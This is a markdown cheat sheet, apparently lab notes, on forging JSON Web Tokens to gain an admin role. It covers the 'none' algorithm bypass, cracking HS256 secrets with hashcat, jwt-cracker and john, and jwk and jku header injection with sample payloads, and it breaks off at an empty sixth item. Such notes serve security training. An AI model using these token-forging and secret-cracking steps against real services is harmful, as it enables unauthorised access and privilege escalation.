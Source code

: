### JSON Web tokens

---

JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. Use - authentication, session handling, and access control mechanisms.

Task : We need to generate a JWT token having an admin role instead of having a user. Finding the key used to sign is important otherwise the signature for a different payload won't be correct.

1. `Unverified signature` - No need to verify signature due to implementation flaw, just change the paramters and construct jwt.
2. `Flawed verification` - Change algo to "none" and leave the signature blank to bypass due to flawed implementation.
3. `Weak signing key HS256 (HMAC + SHA-256)` - Sometimes the JWT is encrypted with some hashing algorithm, we need to break it using 'john the ripper' or other bruteforcing tool and reconstruct the jwt. [jwt-secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)

```py
hashcat -a 0 -m 16500 <jwt> <wordlist> --show  

% jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzA5OTMzODUzfQ.aDP5hVVQQN2uFQL15oTBG1B83j8MnQu0f7IRxodKm24 -d wordlists/rockyou.txt
john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

SECRET FOUND: banana
Time taken (sec): 0.123
Total attempts: 20000
```

4. `jwk header injection` - Change the required paramter then create a new RSA key, use JWT editor, embed the jwk with your newly created RSA key and send the request.

```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```

5. `jku header injection` - A JWK Set is a JSON object containing an array of JWKs representing different keys. You can see an example of this below. Add the jku paramter in header part of jwt and sign the jwt with the generated RSA key, also change the `kid` if it's already there in header.

```json
{
    "kid": "240c7c33-0eb9-46a6-bc2d-650db9188d6f",
    "alg": "RS256",
    "jku": "https://exploit-0ab2008a0391a2ea878b626601c2009c.exploit-server.net/exploit"
}
```

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```

6. 
